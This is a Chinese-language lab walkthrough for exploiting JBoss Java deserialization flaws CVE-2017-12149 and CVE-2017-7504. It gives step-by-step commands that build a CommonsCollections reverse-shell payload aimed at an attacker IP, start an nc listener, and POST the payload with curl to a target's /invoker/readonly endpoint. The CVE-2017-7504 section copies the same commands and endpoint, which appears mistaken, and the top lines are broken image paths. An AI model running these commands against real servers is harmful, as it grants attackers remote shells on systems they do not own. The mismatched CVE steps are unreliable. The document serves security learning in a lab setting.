






# JBOSS反序列化漏洞

> CVE-2017-12149

### 环境准备

```cmd
git clone https://github.com/joaomatosf/JavaDeserH2HC.git
```

- 攻击机kali:`192.168.2.13`
- 靶机:`192.168.2.254`

### 开始攻击

- 首先cd到我们克隆下来的文件里,查看文件结构



- 编译并生成序列化数据`.class`文件

```cmd
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
```



- 序列化恶意数据到文件

```cmd
# 这里填写的ip为攻击机的ip
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.2.13:8888
```



- 监听`8888`端口

```cmd
nc -lvvp 8888
```

- 发送`ReverseShellCommonsCollectionsHashMap.ser`文件到靶机

```cmd
curl http://192.168.2.254:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```



- 反弹成功



### 原理

- jboss`介绍`:jboss是一个基于J2EE开放源代码应用服务器,也是一个管理EJB的容器和服务器
- 原理:在Jboss的`HttpInvoker`组件中`ReadOnlyAccessFilter`过滤器中,该过滤器在没有任何安全检查的情况下尝试将来自客户端的数据流进行`反序列化`,导致攻击者可以通过精心设计序列化数据来执行任意代码

****

# JBoss反序列化漏洞

> cve-2017-7504

### 环境准备

- 跟上面一样

### 开始攻击

- paylaod也是没有变化的

```cmd
# 生成序列化数据从 .class文件
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
# 序列化恶意类到文件
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.2.13:8888
# 监听
nc -lvvp 8888
# 发送数据
curl http://192.168.2.254:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```



****